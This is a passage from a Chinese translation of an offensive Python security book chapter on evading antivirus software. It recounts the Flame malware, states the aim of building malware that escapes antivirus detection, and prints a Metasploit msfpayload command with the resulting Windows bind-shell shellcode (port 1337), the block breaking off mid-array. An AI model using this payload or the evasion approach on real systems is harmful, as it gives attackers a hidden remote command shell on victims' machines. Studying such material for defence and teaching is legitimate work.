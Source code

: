 # 第七章 躲避杀毒系统

# 第七章 躲避杀毒系统

本章内容：

1.  使用 Python Ctypes 工作
2.  使用 Python 躲避杀毒软件
3.  使用 Pyinstaller 构建 Win32 可执行程序
4.  利用 HTTPLib 发送 GET/POST 请求
5.  和在线病毒扫描交互

> 这是一个“小男人”要向你证明的事情，无论你多么强大，无论你多么疯狂，你都必须接受失败！
> 
> —Saulo Ribeiro 巴西柔术 六次世界冠军

# 简介：Flame！

2012 年 5 月 28 日，伊朗的 Maher 中心检测到了一个复杂精妙的计算机网络攻击。这个攻击是此次的复杂，43 种杀毒引擎的 43 种测试也无法辨认出在攻击中使用的恶意代码。发现一些 ASCII 字符串出现在代码中后将它称为 Flame，恶意软件出现的感染的系统是伊朗的国家计算机战略组。编译 Lua 脚本命名为：Beetlejuice, Microbe, Frog, Snack, and Gator，恶意软件偷偷的通过蓝牙记录音频，感染附近的机器，上传截图和数据到远程的控制命令服务器。

估计恶意软件已经使用两年了，Kapersky 实验室很快的解释说 Flame 是“迄今为止发现的最复杂的威胁之一”。它很大并且难以置信的复杂。然而，如何做到防病毒软件无法检测到它至少两年了？他们没有检测到它是因为大多数杀毒软件只要是将基于签名检测作为主要的检测方法。尽管一些厂商开始采取一些更复杂的方法如启发式或者名誉度，但这些依然是性概念。

在最后一章，我们将创建一个杀毒软件来躲避杀毒引擎。所使用的概念主要是 Mark Baggett 实现的，大约一年前它分享了他的方法。然而，绕过杀毒软件的方法在本章的写作时间时任然可用。注意到 Flame，使用了编译的 Lua 脚本。我们将实现 Mark 的方法，编译 Python 脚本为 Windows 可执行程序，为了躲避杀毒软件。

## 躲避杀毒软件

为了创建恶意软件，我们需要恶意代码。Metasploit 框架包含了一个恶意代码库。我们可以使用 Metasploit 生成一些 C 风格的 ShellCode 作为恶意软件的攻击荷载。我们将使用简单的 Windows 绑定 shell，将绑定`cmd.exe` 到 TCP 端口：这允许攻击者远程连接到主机并发出命令和`cmd.exe` 程序相交互。

```
attacker:∼# msfpayload windows/shell_bind_tcp LPORT=1337 C
/*
 * windows/shell_bind_tcp - 341 bytes
 * http://www.metasploit.com
 * VERBOSE=false, LPORT=1337, RHOST=, EXITFUNC=process,
 * InitialAutoRunScript=, AutoRunScript=
 */
unsigned char buf[] =
    "\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
    "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
    "\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
    "\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
    "\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
    "\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
    "\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
    "\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
    "\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
    "\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x68\x33\x32\x00\x00\x68"
    "\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8\x90\x01"
    "\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x50\x50"
    "\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x89\xc7"
    "\x31\xdb\x53\x68\x02\x00\x05\x39\x89\xe6\x6a\x10\x56\x57\x68"
    "\xc2\xdb\x37\x67\xff\xd5\x53\x57\x68\xb7\xe9\x38\xff\xff\xd5"
    "\x53\x53\x57\x68\x74\xec\x3b\xe1\xff\xd5\x57\x89\xc7\x68\x75"
    "\x6e\x4d\x61\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57"
    "\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01"
    "\x8d\x44\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e"
    "\x56\x56\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56"
    "\x46\xff\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56"
```